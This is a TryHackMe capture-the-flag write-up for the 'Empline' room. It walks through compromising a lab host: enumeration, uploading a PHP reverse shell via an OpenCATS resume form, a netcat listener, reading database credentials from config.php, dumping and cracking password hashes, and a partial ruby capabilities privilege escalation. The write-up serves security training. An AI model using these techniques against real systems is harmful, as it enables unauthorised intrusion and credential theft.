




# Try Hack Me Writeup - Empline

TryHackMe room: <https://tryhackme.com/room/empline>

Are you good enough to apply for this job?


**WARNING: I stripped out the answers, passwords, flags and co. This writeup is pretty detailed. By following and doing the steps described here yourself you will get them all. The goal is to learn more about it, even if you get stuck at some point. Enjoy!**

## Table of Contents

- [Setup](#setup)
- [Tools Used](#tools-used)
- [Enumeration of ports and services](#enumeration-of-ports-and-services)
- [Enumerating the web server](#enumerating-the-web-server)
- [Uploading a web shell](#uploading-a-web-shell)
- [Reverse shell connection](#reverse-shell-connection)
- [Horizontal privilege escalation](#horizontal-privilege-escalation)
  - [MySQL Database](#mysql-database)
- [Vertical privilege escalation](#vertical-privilege-escalation)
- [Other methods](#other-methods)
- [Maybe yet other methods](#maybe-yet-other-methods)

## Setup

```commandline
export IP_TARGET=10.10.132.122
export WRITEUP="$HOME/Documents/THM/empline/"
mkdir -p $WRITEUP
cd $WRITEUP
tmux
```

## Tools Used

- nmap
- gobuster
- MySQL

## Enumeration of ports and services

Like most of the time, when you don't know what you are facing, just scan with `nmap` and check what services are running on the target machine.

````commandline
# nmap -sCV -p- $IP_TARGET
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-19 20:09 CEST
Nmap scan report for empline.thm (10.10.132.122)
Host is up (0.030s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c0:d5:41:ee:a4:d0:83:0c:97:0d:75:cc:7b:10:7f:76 (RSA)
|   256 83:82:f9:69:19:7d:0d:5c:53:65:d5:54:f6:45:db:74 (ECDSA)
|_  256 4f:91:3e:8b:69:69:09:70:0e:82:26:28:5c:84:71:c9 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Empline
3306/tcp open  mysql   MySQL 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
|   Thread ID: 110
|   Capabilities flags: 63487
|   Some Capabilities: SupportsTransactions, Speaks41ProtocolOld, LongPassword, InteractiveClient, Support41Auth, ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, DontAllowDatabaseTableColumn, LongColumnFlag, Speaks41ProtocolNew, IgnoreSigpipes, SupportsCompression, FoundRows, SupportsLoadDataLocal, ODBCClient, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: "hjZccEq+{OXN]gmpg8|
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.32 seconds
```` 

Not so much running on this server. I'm a bit surprised.

## Enumerating the web server

Like there's a web server, of course, let's enumerate that and gather information about it.

````commandline
$ gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u $IP_TARGET -t 50
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.132.122
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/09/19 20:10:42 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 315] [--> http://10.10.132.122/assets/]
/javascript           (Status: 301) [Size: 319] [--> http://10.10.132.122/javascript/]
/server-status        (Status: 403) [Size: 278]                                       
                                                                                      
===============================================================
2021/09/19 20:13:01 Finished
===============================================================
````

When browsing on the website, we discover a beautiful website. All links are anchored onto the same page, except one `Employment` link in the top main menu that points to `job.empline.thm`.


So we have to adjust the `/etc/hosts` as root user on our host machine.

````commandline
10.10.132.122    empline.thm
10.10.132.122    job.empline.thm
````

_**Spoiler alert:** Looking up on Google reveals there are a few vulnerabilities about `OpenCATS`. See the section [Other Methods](#other-methods) below where I list all know CVE so far about OpenCATS so far. And i'm pretty sure, looking at this apache version, we have plenty other possibilities to take ownership of this machine. However, during my challenge, I did not have had to make use of these know vulnerabilities. I made my path differently. To be open, I just have looked around my way and tried a few things. After I finished rooting  this box I started to dig deeper to finish this writeup and found out there are some interesting know vulnerabilities._

Looking at the <http://job.empline.thm/> gives us a login screen for the [OpenCATS Application Tracking System](https://www.opencats.org/). As side note my `Malwarebytes Browser Guard` blocks this `OpenCATS` website on my Windows box for the `riskware` reason. That's already a red flag, honestly.



Going to <http://job.empline.thm/careers/> brings us to a job board with a bit of information about this company. They also invite us to view the `current openings positions` with a link.



With only one job available (not on picture), when we click on it, we see that `Position Details` for the `Mobile Dev` job opportunity. We have a bit of information about this job opportunity. Interesting is that we can `Apply to Position` when pressing the link on the right side.



We can apply for this job opportunity by filling in all the required fields and by uploading our malware, excuse me, our resume.



As we found out this new website and the upload capabilities, it's always wise to enumerate this web server again, but more targeted. We see that `gobuster` found an `upload` folder. Probably for the applications that are submitted.

````commandline
$ gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u job.empline.thm -t 50
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://job.empline.thm
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/09/19 20:26:08 Starting gobuster in directory enumeration mode
===============================================================
/rss                  (Status: 301) [Size: 316] [--> http://job.empline.thm/rss/]
/xml                  (Status: 301) [Size: 316] [--> http://job.empline.thm/xml/]
/modules              (Status: 301) [Size: 320] [--> http://job.empline.thm/modules/]
/careers              (Status: 301) [Size: 320] [--> http://job.empline.thm/careers/]
/scripts              (Status: 301) [Size: 320] [--> http://job.empline.thm/scripts/]
/upload               (Status: 301) [Size: 319] [--> http://job.empline.thm/upload/] 
/ajax                 (Status: 301) [Size: 317] [--> http://job.empline.thm/ajax/]   
/test                 (Status: 301) [Size: 317] [--> http://job.empline.thm/test/]   
/lib                  (Status: 301) [Size: 316] [--> http://job.empline.thm/lib/]    
/src                  (Status: 301) [Size: 316] [--> http://job.empline.thm/src/]    
/db                   (Status: 301) [Size: 315] [--> http://job.empline.thm/db/]     
/js                   (Status: 301) [Size: 315] [--> http://job.empline.thm/js/]     
/javascript           (Status: 301) [Size: 323] [--> http://job.empline.thm/javascript/]
/temp                 (Status: 301) [Size: 317] [--> http://job.empline.thm/temp/]      
/vendor               (Status: 301) [Size: 319] [--> http://job.empline.thm/vendor/]    
/images               (Status: 301) [Size: 319] [--> http://job.empline.thm/images/]    
/attachments          (Status: 301) [Size: 324] [--> http://job.empline.thm/attachments/]
/ci                   (Status: 301) [Size: 315] [--> http://job.empline.thm/ci/]         
/wsdl                 (Status: 301) [Size: 317] [--> http://job.empline.thm/wsdl/]       
/server-status        (Status: 403) [Size: 280]                                          
                                                                                         
===============================================================
2021/09/19 20:28:26 Finished
===============================================================
````

## Uploading a Web shell

As we have the opportunity to upload our resume, We need to investigate on this. And apparently this web interface is able to populate the fields. Which is very interesting as I bet we can upload some fancy malicious PDF, doc or whatever fancy file to play around with eventual XXE or other vulnerabilities. Did not try that out. As I first try out the basics, to upload some web shell.

So I filled in all the required fields marked with an asterisks. The first attempt, I submitted my application with a simple png image file. Just to test out the system. I discovered that there is some bug and that the system did not upload my attachment, my png image file. Tried that with different kind of files to be sure that the system did not filter out my attachment. Found out that we need to `Browse` and `Upload` twice our file so that it get really attached and uploaded into the `upload` folder on the web server when we submit our application. On the web interface, we will even see that our second attachment will be named `<filename> Copy...`. That copy file will be not uploaded. The original file name will. This is pretty confusing, maybe not a bug, but at least, the interface is confusing.

**ANYWAY, THIS IS ABSOLUTE NOT NORMAL WE CAN UPLOAD A PLAIN PHP WEB SHELL THAT WAY. ACTUALLY, I TRIED OUT ALL FANCY NASTY THINGS AND EVERYTHING IS ALLOWED. THERE IS REALLY SOMETHING GOING VERY BAD WITH THIS TOOL. THIS IS WAY TOO EASY AND DANGEROUS AS TOOL ON THIS SERVER.**

So after a few trial and errors, I took the web shell available by default on my `kali` machine and located at `/usr/share/webshells/php/php-reverse-shell.php`. I copied to my `~/tools` directory and named it `webshell.php`. Adjusted the `$ip` variable to that of my `kali` attackers machine. Left the port on `4444`.


## Reverse shell connection

So time to set up our listener on our host machine:

````commandline
nc -nlvp 4444
````

And now run our `webshell.php` file to get connection by pointing the browser to <http://job.empline.thm/upload/careerportaladd/webshell.php>.

````commandline
$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.8.208.30] from (UNKNOWN) [10.10.132.122] 50290
Linux empline 4.15.0-147-generic #151-Ubuntu SMP Fri Jun 18 19:21:19 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 18:30:32 up  2:21,  0 users,  load average: 0.04, 0.10, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
````

Stabilize our shell, so that we will not get kicked out by pressing `ctrl + c` and also to get autocompletion and other fancy features.

````commandline
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@empline:/$ export TERM=xterm-256color
export TERM=xterm-256color
www-data@empline:/$ ^Z
[1]+  Stopped                 nc -nlvp 4444
┌──(itchy㉿scratchy)-[~/Documents/THM/empline]
└─$ stty raw -echo; fg
nc -nlvp 4444

www-data@empline:/$ 
Display all 1414 possibilities? (y or n)
www-data@empline:/$ whoami
www-data
www-data@empline:/$ pwd
/
www-data@empline:/$
````

Now that the shell is stable, we need to adjust the `tty` size of the terminal. As otherwise, using for example `vim`, `nano` or anything like that we will be in troubles. Like I'm using `tmux`, I first open a new window `<prefix> + c`, and get the `tty` info from there.

````commandline
$ stty -a
speed 38400 baud; rows 76; columns 317; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = <undef>; eol2 = <undef>; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc -ixany -imaxbel iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
````

Then I take the rows and columns information and set it in that other window where my remote connection is running.

````commandline
www-data@empline:/$ stty rows 76 columns 317
````

Hopla, we are ready to go...

## Horizontal privilege escalation

Looking out for usable files and a way to escalate. But at this stage could not get anything useful at all.

````commandline
www-data@empline:/$ ls -lah /home/
total 16K
drwxr-xr-x  4 root   root   4.0K Jul 20 19:48 .
drwxr-xr-x 24 root   root   4.0K Sep 19 12:31 ..
drwxrwx---  2 george george 4.0K Jul 20 19:48 george
drwxr-xr-x  3 ubuntu ubuntu 4.0K Jul 20 19:45 ubuntu
www-data@empline:/$ ls -lah /home/ubuntu/     
total 24K
drwxr-xr-x 3 ubuntu ubuntu 4.0K Jul 20 19:45 .
drwxr-xr-x 4 root   root   4.0K Jul 20 19:48 ..
-rw-r--r-- 1 ubuntu ubuntu  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 ubuntu ubuntu 3.7K Apr  4  2018 .bashrc
-rw-r--r-- 1 ubuntu ubuntu  807 Apr  4  2018 .profile
drwx------ 2 ubuntu ubuntu 4.0K Jul 20 19:45 .ssh
````

This `www-data` user can not make use of `sudo` and has no `crontabs`. The file `/etc/crontab` also did not reveal anything.

````commandline
www-data@empline:/$ sudo -l
[sudo] password for www-data: 
www-data@empline:/$ crontab -l
no crontab for www-data
````

Looking for config files in the website location but did not find out anything after giving up fast. There are too many directories, and I did not want to lose too much time.

````commandline
www-data@empline:/$ cd /var/www/
www-data@empline:/var/www$ ls
html  opencats
www-data@empline:/var/www$ ls -lah html/
total 36K
drwxr-xr-x 3 root root 4.0K Jul 20 19:48 .
drwxr-xr-x 4 root root 4.0K Jul 20 19:48 ..
drwxr-xr-x 6 root root 4.0K Jul 20 19:48 assets
-rwxr-xr-x 1 root root  14K Jul 20 19:48 index.html
-rwxr-xr-x 1 root root 5.6K Jul 20 19:48 prepros-6.config
www-data@empline:/var/www$ ls -lah opencats/
total 476K
drwxrwxr-x 23 www-data www-data 4.0K Jul 20 19:53 .
drwxr-xr-x  4 root     root     4.0K Jul 20 19:48 ..
-rw-rw-r--  1 www-data www-data 1.7K May  3  2017 .travis.yml
-rw-rw-r--  1 www-data www-data  65K May  3  2017 CHANGELOG.MD
-rwxrwxr-x  1 www-data www-data  328 May  3  2017 Error.tpl
-rw-r--r--  1 www-data www-data  104 Jul 20 19:53 INSTALL_BLOCK
-rw-rw-r--  1 www-data www-data  43K May  3  2017 LICENSE.md
-rwxrwxr-x  1 www-data www-data 3.5K May  3  2017 QueueCLI.php
-rw-rw-r--  1 www-data www-data 1.8K May  3  2017 README.md
drwxrwxr-x  2 www-data www-data 4.0K May  3  2017 ajax
-rw-rw-r--  1 www-data www-data 3.4K May  3  2017 ajax.php
drwxrwx---  3 www-data www-data 4.0K Sep 19 12:45 attachments
drwxrwxr-x  2 www-data www-data 4.0K May  3  2017 careers
-rwxrwxr-x  1 www-data www-data 2.9K May  3  2017 careersPage.css
drwxrwxr-x  2 www-data www-data 4.0K May  3  2017 ci
drwxrwxr-x  7 www-data www-data 4.0K May  3  2017 ckeditor
-rw-rw-r--  1 www-data www-data  395 May  3  2017 composer.json
-rw-rw-r--  1 www-data www-data  95K May  3  2017 composer.lock
-rwxrwxr-x  1 www-data www-data  15K Jul 20 19:53 config.php
-rw-rw-r--  1 www-data www-data  11K May  3  2017 constants.php
drwxrwxr-x  2 www-data www-data 4.0K May  3  2017 db
drwxrwxr-x  2 www-data www-data 4.0K May  3  2017 docker
-rwxrwxr-x  1 www-data www-data 1.1K May  3  2017 ie.css
drwxrwxr-x 11 www-data www-data  12K May  3  2017 images
-rw-rw-r--  1 www-data www-data 8.3K May  3  2017 index.php
-rwxrwxr-x  1 www-data www-data 5.6K May  3  2017 installtest.php
-rwxrwxr-x  1 www-data www-data  48K May  3  2017 installwizard.php
drwxrwxr-x  3 www-data www-data 4.0K May  3  2017 js
drwxrwxr-x  8 www-data www-data 4.0K May  3  2017 lib
-rwxrwxr-x  1 www-data www-data  25K May  3  2017 main.css
drwxrwxr-x 25 www-data www-data 4.0K May  3  2017 modules
-rwxrwxr-x  1 www-data www-data 1.1K May  3  2017 not-ie.css
drwxrwxr-x  3 www-data www-data 4.0K May  3  2017 optional-updates
-rw-rw-r--  1 www-data www-data 2.1K May  3  2017 rebuild_old_docs.php
drwxrwxr-x  2 www-data www-data 4.0K May  3  2017 rss
drwxrwxr-x  2 www-data www-data 4.0K May  3  2017 scripts
drwxrwxr-x  3 www-data www-data 4.0K May  3  2017 src
drwxrwxr-x  2 www-data www-data 4.0K May  3  2017 temp
drwxrwxr-x  6 www-data www-data 4.0K May  3  2017 test
drwxrwx---  3 www-data www-data 4.0K Sep 19 12:43 upload
drwxrwxr-x 17 www-data www-data 4.0K May  3  2017 vendor
drwxrwxr-x  2 www-data www-data 4.0K May  3  2017 wsdl
drwxrwxr-x  2 www-data www-data 4.0K May  3  2017 xml
www-data@empline:/var/www$
````

### MySQL Database

So, I ended up looking on the <https://forums.opencats.org/> and using the nice `Search Form` for more information about where the database config files is stored. I found that it is stored in a file called `config.php`.

````commandline
www-data@empline:/var/www$ find . -name config.php
./opencats/config.php
./opencats/test/config.php
````

Looking into that file, of course, found the database credentials. Here is a stripped out version of the `config.php`.

````commandline
opencats/config.php:define('DATABASE_USER', 'james');
opencats/config.php:define('DATABASE_PASS', 'REDACTED');
opencats/config.php:define('DATABASE_HOST', 'localhost');
opencats/config.php:define('DATABASE_NAME', 'opencats');
````

Tried to use these credentials to log in but there is no credentials reuse for the shell user `george` and `ubuntu` and `root`.

So continuing looking for credentials and connected to the `MySQL` database. Looking which database are available, you never know if you get even more free goodies.

````commandline
www-data@empline:/var/www$ mysql -u james -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 115
Server version: 10.1.48-MariaDB-0ubuntu0.18.04.1 Ubuntu 18.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| opencats           |
+--------------------+
2 rows in set (0.00 sec)

MariaDB [(none)]> use opencats
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [opencats]>
````

Looking what tables there are in this database about this `OpenCATS` tool.

````commandline
MariaDB [opencats]> show tables;
+--------------------------------------+
| Tables_in_opencats                   |
+--------------------------------------+
| access_level                         |
| activity                             |
| activity_type                        |
| attachment                           |
| calendar_event                       |
| calendar_event_type                  |
| candidate                            |
| candidate_joborder                   |
| candidate_joborder_status            |
| candidate_joborder_status_history    |
| candidate_jobordrer_status_type      |
| candidate_source                     |
| candidate_tag                        |
| career_portal_questionnaire          |
| career_portal_questionnaire_answer   |
| career_portal_questionnaire_history  |
| career_portal_questionnaire_question |
| career_portal_template               |
| career_portal_template_site          |
| company                              |
| company_department                   |
| contact                              |
| data_item_type                       |
| eeo_ethnic_type                      |
| eeo_veteran_type                     |
| email_history                        |
| email_template                       |
| extension_statistics                 |
| extra_field                          |
| extra_field_settings                 |
| feedback                             |
| history                              |
| http_log                             |
| http_log_types                       |
| import                               |
| installtest                          |
| joborder                             |
| module_schema                        |
| mru                                  |
| queue                                |
| saved_list                           |
| saved_list_entry                     |
| saved_search                         |
| settings                             |
| site                                 |
| sph_counter                          |
| system                               |
| tag                                  |
| user                                 |
| user_login                           |
| word_verification                    |
| xml_feed_submits                     |
| xml_feeds                            |
| zipcodes                             |
+--------------------------------------+
54 rows in set (0.00 sec)

MariaDB [opencats]>
````

We find the `OpenCATS` credentials of user `admin`, `james`, and `george` in the `user` table, but the following methods is pretty messy to do, but it's fast, and you get good glance at what you need in no time.

````commandline
MariaDB [opencats]> select * from user;
````

Let's take a closer look to the different fields so that we will be able to extract the information we need.

````commandline
MariaDB [opencats]> describe user;
+---------------------------+--------------+------+-----+---------+----------------+
| Field                     | Type         | Null | Key | Default | Extra          |
+---------------------------+--------------+------+-----+---------+----------------+
| user_id                   | int(11)      | NO   | PRI | NULL    | auto_increment |
| site_id                   | int(11)      | NO   | MUL | 0       |                |
| user_name                 | varchar(64)  | NO   |     |         |                |
| email                     | varchar(128) | YES  |     | NULL    |                |
| password                  | varchar(128) | NO   |     |         |                |
| access_level              | int(11)      | NO   | MUL | 100     |                |
| can_change_password       | int(1)       | NO   |     | 1       |                |
| is_test_user              | int(1)       | NO   |     | 0       |                |
| last_name                 | varchar(40)  | NO   | MUL |         |                |
| first_name                | varchar(40)  | NO   | MUL |         |                |
| is_demo                   | int(1)       | YES  |     | 0       |                |
| categories                | varchar(192) | YES  |     | NULL    |                |
| session_cookie            | varchar(256) | YES  |     | NULL    |                |
| pipeline_entries_per_page | int(8)       | YES  |     | 15      |                |
| column_preferences        | longtext     | YES  |     | NULL    |                |
| force_logout              | int(1)       | YES  |     | 0       |                |
| title                     | varchar(64)  | YES  |     |         |                |
| phone_work                | varchar(64)  | YES  |     |         |                |
| phone_cell                | varchar(64)  | YES  |     |         |                |
| phone_other               | varchar(64)  | YES  |     |         |                |
| address                   | text         | YES  |     | NULL    |                |
| notes                     | text         | YES  |     | NULL    |                |
| company                   | varchar(255) | YES  |     | NULL    |                |
| city                      | varchar(64)  | YES  |     | NULL    |                |
| state                     | varchar(64)  | YES  |     | NULL    |                |
| zip_code                  | varchar(16)  | YES  |     | NULL    |                |
| country                   | varchar(128) | YES  |     | NULL    |                |
| can_see_eeo_info          | int(1)       | YES  |     | 0       |                |
+---------------------------+--------------+------+-----+---------+----------------+
28 rows in set (0.00 sec)

MariaDB [opencats]>
````

We are only interested into the `username`, `email`, `password`, and it's also good to know their `access level`. So let's fetch that. (I REDACTED the password hashes)

````commandline
MariaDB [opencats]> select user_name, email, password, access_level from user;
+----------------+----------------------+----------------------------------+--------------+
| user_name      | email                | password                         | access_level |
+----------------+----------------------+----------------------------------+--------------+
| admin          | admin@testdomain.com | REDACTED                         |          500 |
| cats@rootadmin | 0                    | cantlogin                        |            0 |
| george         |                      | REDACTED                         |          400 |
| james          |                      | REDACTED                         |          200 |
+----------------+----------------------+----------------------------------+--------------+
4 rows in set (0.00 sec)

MariaDB [opencats]>
````

Looking up on [CrackStation](https://crackstation.net) with these hashes we got from the `MySQL` table `user`, and we get the password of user `george`. For the other users we could not get the password. Did not take the time to crack these other user accounts with `john` or `hashcat` or whatever other tool. I god food, so let's consume it.

````commandline
george:REDACTED
````

As credentials reuse is very common, and like in this case it is, we can now log in with user `george` and grab the `user.txt` flag.

````commandline
www-data@empline:/var/www$ su george
Password: 
george@empline:/var/www$ cd 
george@empline:~$ ls
user.txt
george@empline:~$ cat user.txt 
91*****70aa2e5ce0e0116dab*****8e
````

## Vertical privilege escalation

This user `george` has no `sudo` rights, no `crontab` and no `SUID` bits found.

However, we can get the capabilities of the user with `getcap`. Which reveals something interesting about `ruby` which has `chown` capabilities with superuser rights. Reading the `man capabilities` (or the [online version](https://man7.org/linux/man-pages/man7/capabilities.7.html)) will give us nice information.

````commandline
$ getcap -r / 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/local/bin/ruby = cap_chown+ep
````

As I don't know anything about `Ruby` actually, I had to do a bit of research about "ruby one liner" on Google. On how to execute a `Ruby` command onto one line if you want, like this is possible with `Python` and many other language. This gave a few hints which I tried out, but it did not work like I expected. Well, the one-liners did work as expected, but I expected more, owning that `/etc/passwd` file which failed so far. I admit it that I did not do a lot of research about that.

````commandline
george@empline:~$ /usr/local/bin/ruby -e 'system("chown george /etc/passwd" )'
chown: changing ownership of '/etc/passwd': Operation not permitted
````

Using the `system` function with `whoami` also returned unexpected information. Well no, not exactly, it returned `george`. But I wanted it return `root`. So this was the `PoC`, the Proof of Concept I was not on the good path.

Got a tip from a discord user (Thanks `Rushi`!) that we actually need to make use of the Ruby's `chown` function. Which actually make sense in this context. I Had to do more research, I confess. But you know, it's all about sharing knowledge, on Google, website or via your contacts :-) Anyway, I did my homework late like we say, and you can get more information in the [Ruby FileUtils](https://ruby-doc.org/stdlib-2.4.1/libdoc/fileutils/rdoc/FileUtils.html).

````commandline
george@empline:/$ id
uid=1002(george) gid=1002(george) groups=1002(george)
